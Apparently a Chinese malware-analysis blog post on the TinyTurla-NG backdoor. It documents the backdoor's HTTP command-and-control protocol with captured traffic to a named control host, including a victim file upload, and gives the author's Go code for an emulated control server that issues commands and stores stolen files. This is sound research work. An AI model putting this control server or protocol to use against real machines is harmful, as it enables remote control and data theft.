[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083915-a292a926-d508-1.png)

基于文件路径泄露信息，我们得知在 C&C 上存在多个日志文件，若能够获取相关日志文件，我们即可更进一步的了解整个攻击活动的情况：

-   基于文件路径泄露信息，我们可通过空间测绘平台或直接扫描探测，挖掘扩线 TinyTurla-NG 新后门的 C&C 地址；
-   基于 log.txt 文件内容，我们可获取所有受控 IP 信息；
-   基于 tasks.txt、result.txt 文件内容，我们可复现还原攻击者在攻击活动中的所有窃密行为；

## 后门通信模型分析

通过对 TinyTurla-NG 新后门通信模型进行分析，发现 TinyTurla-NG 新后门的 HTTP 请求主要分为如下情况：

-   POST 请求中，表单数据名称为"result"：主要用于发送上线认证信标及命令执行后的响应数据；
-   POST 请求中，表单数据名称为"gettask"：主要用于请求获取远控指令；
-   POST 请求中，表单数据名称为"file"：主要用于发送文件内容；
-   POST 响应请求中，实际远控指令前需要携带“rsp:”字符串；

相关截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083932-ac6c27ec-d508-1.png)

### 上线认证

通过分析，发现 TinyTurla-NG 新后门运行后，将首先发送上线认证数据，便于 C&C 对受控主机的远控行为数据进行管理。在上线认证通信中，后门将发送“Client Ready”字符串作为信标进行发送。

详细情况如下：

```plain
#**********TinyTurla-NG 新后门 -> C&C 站点**********
POST /wp-includes/blocks/rss.old.php HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary="-"
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0.1) Gecko/20100101 Firefox/4.0.1
Content-Length: 190
Host: jeepcarlease.com

---
Content-Disposition: form-data;name="id"
Content-Type: text/plain

307b5c9a
---
Content-Disposition: form-data;name="result"
Content-Type: text/plain

Client Ready
-----
....  

#**********C&C 站点 -> TinyTurla-NG 新后门**********
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Date: Mon, 26 Feb 2024 03:35:54 GMT
Content-Length: 4

rsp:
```

### 远控功能

通过分析，发现 TinyTurla-NG 新后门支持多种远控指令，通信模型结构主要有两种类型：

-   远控指令为除上传文件、下载文件外的常规指令；
-   远控指令为上传文件、下载文件类指令；

#### 常规指令

常规指令的通信模型情况如下：

```plain
#**********TinyTurla-NG 新后门 -> C&C 站点**********
POST /wp-includes/blocks/rss.old.php HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary="-"
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0.1) Gecko/20100101 Firefox/4.0.1
Content-Length: 175
Host: jeepcarlease.com

---
Content-Disposition: form-data;name="id"
Content-Type: text/plain

307b5c9a
---
Content-Disposition: form-data;name="gettask"
Content-Type: text/plain

-----
.a

#**********C&C 站点 -> TinyTurla-NG 新后门**********
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Date: Mon, 26 Feb 2024 03:36:01 GMT
Content-Length: 15

rsp:timeout 1 1

#**********TinyTurla-NG 新后门 -> C&C 站点**********
POST /wp-includes/blocks/rss.old.php HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary="-"
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0.1) Gecko/20100101 Firefox/4.0.1
Content-Length: 267
Host: jeepcarlease.com

---
Content-Disposition: form-data;name="id"
Content-Type: text/plain

307b5c9a
---
Content-Disposition: form-data;name="result"
Content-Type: text/plain

[+] ShortTimer and FailCounter changed. New ShortTimer is 1 minute & New FailCounter is 1
-----
....

#**********C&C 站点 -> TinyTurla-NG 新后门**********
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Date: Mon, 26 Feb 2024 03:36:10 GMT
Content-Length: 4

rsp:
```

#### 上传文件、下载文件类指令

上传文件、下载文件类指令的通信模型情况如下：

```plain
#**********TinyTurla-NG 新后门 -> C&C 站点**********
#字符串形式：
POST /wp-includes/blocks/rss.old.php HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary="-"
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0.1) Gecko/20100101 Firefox/4.0.1
Content-Length: 175
Host: jeepcarlease.com

---
Content-Disposition: form-data;name="id"
Content-Type: text/plain

307b5c9a
---
Content-Disposition: form-data;name="gettask"
Content-Type: text/plain

-----
.\
#**********C&C 站点 -> TinyTurla-NG 新后门**********
#字符串形式：
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Date: Mon, 26 Feb 2024 03:36:36 GMT
Content-Length: 39

rsp:post C:\Users\admin\Desktop\111.txt
#**********TinyTurla-NG 新后门 -> C&C 站点**********
#字符串形式：
POST /wp-includes/blocks/rss.old.php HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary="-"
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0.1) Gecko/20100101 Firefox/4.0.1
Content-Length: 738
Host: jeepcarlease.com

---
Content-Disposition: form-data;name="id"
Content-Type: text/plain

307b5c9a
---
Content-Disposition: form-data;name="file"; filename="111.txt"; filename*=utf-8''111.txt
Content-Type: application/octet-stream

package main

import (
    "fmt"
    "os"
)

func main() {
    filePath := "test.txt"

    // ..............................................
    file, err := os.OpenFile(filePath, os.O_WRONLY|os.O_CREATE|os.O_APPEND, 0644)
    if err != nil {
        fmt.Println("............:", err)
        return
    }
    defer file.Close()

    // ........
    content := "................\n"
    _, err = file.WriteString(content)
    if err != nil {
        fmt.Println("............:", err)
        return
    }

    fmt.Println("....................")
}
-----
#**********C&C 站点 -> TinyTurla-NG 新后门**********
#字符串形式：
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Date: Mon, 26 Feb 2024 03:36:40 GMT
Content-Length: 4

rsp:
#**********TinyTurla-NG 新后门 -> C&C 站点**********
#字符串形式：
POST /wp-includes/blocks/rss.old.php HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary="-"
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0.1) Gecko/20100101 Firefox/4.0.1
Content-Length: 225
Host: jeepcarlease.com

---
Content-Disposition: form-data;name="id"
Content-Type: text/plain

307b5c9a
---
Content-Disposition: form-data;name="result"
Content-Type: text/plain

[+] File C:\Users\admin\Desktop\111.txt posted

-----
.
..
#**********C&C 站点 -> TinyTurla-NG 新后门**********
#字符串形式：
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Date: Mon, 26 Feb 2024 03:36:42 GMT
Content-Length: 4

rsp:
```

## 模拟构建 C&C 站点

在笔者模拟构建 TinyTurla-NG 新后门 C&C 站点的过程中，笔者最初准备尝试使用自签名证书构建一个 HTTPS 站点，但在实际构建过程中，笔者发现 TinyTurla-NG 新后门代码中并未像 TinyTurla 后门调用了 WinHttpSetOption 函数对证书错误信息进行忽略，因此，TinyTurla-NG 新后门无法成功访问使用自签名证书构建的 HTTPS 站点。

通过实际访问 TinyTurla-NG 新后门的 C&C 站点，发现其 C&C 站点的证书信息确实是正常的证书信息，相关截图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227083955-ba5c56d8-d508-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227084012-c4400e24-d508-1.png)

**由于笔者没有有效证书文件，因此笔者只能尝试模拟构建一个 HTTP 站点（将 TinyTurla-NG 新后门文件中的内置 https 外联 URL 修改为 http 外联 URL 即可实现对 HTTP 站点的访问），若大家感兴趣且手头有有效证书文件，可以尝试将代码修改为 HTTPS 站点。**

在这里，笔者将使用 golang 语言模拟构建 TinyTurla-NG 新后门 C&C 站点，详细情况如下：

代码结构如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227084031-cfd28438-d508-1.png)

-   tasks.txt

```plain
rsp:timeout 1 1
rsp:ipconfig
rsp:calc.exe
rsp:dir C:\Users\admin\Desktop
rsp:post C:\Users\admin\Desktop\111.txt
rsp:whoami
```

-   main.go

```plain
package main

import (
    "awesomeProject3/common"
    "github.com/gin-gonic/gin"
    "os"
)

func main() {
    init_tasks()

    r := gin.Default()
    // 设置GIN模式为release模式
    gin.SetMode(gin.ReleaseMode)
    r.GET("/", common.HandleRoot)
    r.POST("/wp-includes/blocks/rss.old.php", common.Handle_POST)
    r.POST("/wordpress/wp-includes/rss.old.php", common.Handle_POST)
    r.Run(":80")
}

func init_tasks() {
    os.Remove("./conf/tmp.txt")
    common.WriteFile("./conf/tmp.txt", "0")
}
```

-   common.go

```plain
package common

import (
    "bufio"
    "fmt"
    "github.com/gin-gonic/gin"
    "io"
    "io/ioutil"
    "os"
    "strconv"
)

func HandleRoot(c *gin.Context) {
    c.String(200, "Hello, World!")
}

func Handle_POST(c *gin.Context) {
    str_id := c.PostForm("id")
    str_result := c.PostForm("result")
    file, header, _ := c.Request.FormFile("file")
    fmt.Println(str_id, str_result)
    if str_result != "" {
        WriteFile_A("./conf/"+str_id+".txt", "**********output********\r\n"+str_result+"\r\n")
        c.String(200, "rsp:")
    } else if header != nil {
        defer file.Close()
        // 创建一个新文件
        out, _ := os.Create("./conf/post_" + header.Filename)
        defer out.Close()
        // 将上传的文件内容拷贝到新文件中
        _, _ = io.Copy(out, file)
        c.String(200, "rsp:")
    } else if str_result == "" {
        str, _ := ReadFile("./conf/tmp.txt")
        num, _ := strconv.Atoi(str)
        strs := FileToSlice("./conf/tasks.txt")
        if num+1 < len(strs) {
            os.Remove("./conf/tmp.txt")
            WriteFile("./conf/tmp.txt", strconv.Itoa(num+1))
            c.String(200, strs[num])
        } else {
            c.String(200, "rsp:")
        }
    }
}

func FileToSlice(file string) []string {
    fil, _ := os.Open(file)
    defer fil.Close()
    var lines []string
    scanner := bufio.NewScanner(fil)
    for scanner.Scan() {
        lines = append(lines, scanner.Text())
    }
    return lines
}

// ReadFile is used to read a given file and return its data as a string.
func ReadFile(filename string) (string, error) {
    f, err := os.Open(filename)
    if err != nil {
        return "", err
    }
    defer f.Close()

    b, err := ioutil.ReadAll(f)
    if err != nil {
        return "", err
    }

    return string(b), nil
}

// WriteFile is used to write data into a given file.
func WriteFile(filename, data string) error {
    file, err := os.Create(filename)
    if err != nil {
        return err
    }
    defer file.Close()

    _, err = io.WriteString(file, data)
    if err != nil {
        return err
    }

    return nil
}

func checkFileIsExist(filename string) bool {
    var exist = true
    if _, err := os.Stat(filename); os.IsNotExist(err) {
        exist = false
    }
    return exist
}

func WriteFile_A(filename string, buffer string) {
    var f *os.File
    var err error

    if checkFileIsExist(filename) {
        f, err = os.OpenFile(filename, os.O_APPEND|os.O_WRONLY, os.ModeAppend)
    } else {
        f, err = os.Create(filename)
    }
    _, err = io.WriteString(f, buffer)
    if err != nil {
        fmt.Println(err.Error())
        return
    }
    f.Close()
}
```
